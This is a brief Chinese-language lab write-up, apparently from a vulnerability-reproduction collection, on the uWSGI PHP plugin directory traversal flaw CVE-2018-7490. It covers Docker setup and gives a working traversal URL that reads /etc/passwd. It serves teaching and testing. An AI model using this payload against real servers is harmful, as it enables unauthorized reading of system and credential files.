


uWSGI PHP目录穿越漏洞 CVE-2018-7490¶
漏洞描述¶
uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。
uWSGI 2.0.17之前的PHP插件，没有正确的处理DOCUMENT_ROOT检测，导致用户可以通过..%2f来跨越目录，读取或运行DOCUMENT_ROOT目录以外的文件。
环境搭建¶
运行存在漏洞的uWSGI服务器：
docker-compose up -d
运行完成后，访问http://your-ip:8080/index.php即可看到phpinfo信息，说明uwsgi-php服务器已成功运行。

漏洞复现¶
访问http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd，成功读取文件：
